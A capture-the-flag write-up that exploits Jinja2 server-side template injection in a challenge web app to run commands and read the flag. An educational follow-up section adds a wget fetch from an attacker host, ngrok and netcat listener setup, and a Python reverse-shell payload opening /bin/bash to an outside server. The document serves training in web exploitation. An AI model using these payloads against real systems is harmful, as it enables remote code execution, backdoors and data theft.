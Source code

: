# Super Space Tech Inc

## Challenge Description
Our engineers have found that one of the python web applications have been infiltrated. Try to find what the attackers have hidden!
http://chall.seccomp.xyz:5003/


## Walkthrough
Going to the challenge home page, it shows only a link (Jarvis). This link displays the following text: “Hi, Javis”. Note that the url accepts the parameter “name” and the default input is “Javis”.

![alt text](img/Picture1.png)
![alt text](img/Picture2.png)

The output appears to be printed from a template. This template is as follows:
“Hi, {name}”, where the variable “name” is the url input. 
To verify, we can inject our own input.
![alt text](img/Picture3.png)


Our input is displayed successfully. A vulnerability called Server Side Template Injection (SSTI) could be present in this web app. SSTI is a critical vulnerability as it enables the attacker to inject malicious inputs into a template and execute server side. Potential threats include unauthorised file disclosure and arbitrary code execution. The challenge title also gives a hint that it is SSTI (**S**uper **S**pace **T**ech **I**nc).

A simple test to detect SSTI is to perform a mathematical evaluation and verify if the input is rendered and reflected in the output. Inserting the input “{{7*7}}” into the url parameter prints the output of 49, confirming the existence of SSTI.
![alt text](img/Picture4.png)


In order to use the correct payload, we will need to identify the template engine. By injecting an invalid payload, an error will trigger and the engine is identified. However if the error messages are suppressed, we will need to inject language-specific payloads. Fortunately, PortSwigger has a decision tree for us to refer to: https://portswigger.net/research/server-side-template-injection
![alt text](img/Picture5.png)


In this challenge, all of these are unnecessary as the description states it is running a python web server (Jinja2).

SSTI Payloads can be found in PayloadsAllTheThings (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)

We will use the following payload to execute the “id” command via Remote Code Execution (RCE) in Jinja2 syntax
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
![alt text](img/Picture6.png)


The command is executed successfully.
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27id%27).read()%20}}
```
![alt text](img/Picture7.png)


List files in the directory using “ls” command.
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27ls%27).read()%20}}
```
![alt text](img/Picture8.png)


The flag.txt is discovered in the directory. Obtain the flag using “cat” command.
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27cat%20flag.txt%27).read()%20}}
```
![alt text](img/Picture9.png)

The flag obtained is **CZ4067{3xp1oiT_sStI}**.







## Taking a step further from REMOTE CODE EXECUTION (RCE)
The implications of a vulnerability leading to a RCE is catastrophic as it gives the attackers the ability to perform arbitrary code execution, including system commands.
Once obtaining RCE, an attacker will typically attempt to gain backdoor access into the victim’s machine to perform more malicious actions. We will demonstrate a simple Backdoor POC for the purpose of educating others on the impacts of RCE.

### Creating our payload
A common method of gaining backdoor access in Linux is to transfer a malicious payload into the victim machine via **curl** or **wget** command. However, it is discovered that neither commands are installed in this machine.

Curl command to http://google.com
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27curl%20http://google.com%27).read()%20}}
```

Wget command from attacker machine
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27wget%20http://AttackerIP/payload.exe%27).read()%20}}
```
![alt text](img/Picture10.png)

Fortunately, as this is a Linux machine, it will typically have Python installed. We can use the **socket.connect()** method from Python’s socket library, which establishes a TCP connection to a server. This will be our reverse shell payload.

### Setting up C2 Server and Kali netcat for listening
As the connection is made over the Internet, we will need to set up Port Forwarding in our own network. However, this will cause security issues as our Public IP Address will be disclosed. Thus, we will set up a Command and Control (C2) Server using **ngrok**. Signing up is required and installation can be found in the website: https://ngrok.com/download

Once ngrok is installed in our Kali Linux machine, we run the following command:
```console
$ ngrok tcp <internal port>
```
In this test, the internal port used is **6969**.

The service will start and traffic is now forwarded from ngrok service to our localhost
![alt text](img/Picture11.png)

Next, set up **netcat** to listen for incoming connection
```console
$ nc -lvnp 6969
```

### Executing reverse shell
The following command will be injected into the Web Server:
```console
$ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ngrokIP",externalport));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

In summary, the Web Server will establish a connection with our C2 Server, before spawning a bash process. In this example, ngrokIP is **0.tcp.ap.ngrok.io** and externalport is **17897**.

This will be the resulting RCE command:
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27python%20-c%20\%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%220.tcp.ap.ngrok.io%22,17897));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22/bin/bash%22)\%27%27).read()%20}
```

In our Kali Linux machine, a shell terminal is opened and we can interact with the Web Server directly.
![alt text](img/Picture12.png)

Having a direct connection to the victim’s machine allows the attacker to proceed with his kill chain. He can perform post-exploitation methods including but not only:
- Enumeration for Privilege Escalation, gaining root access to the machine
- Data Exfiltration
- Persistency in the machine
- Pivoting into exploiting other machines within the network

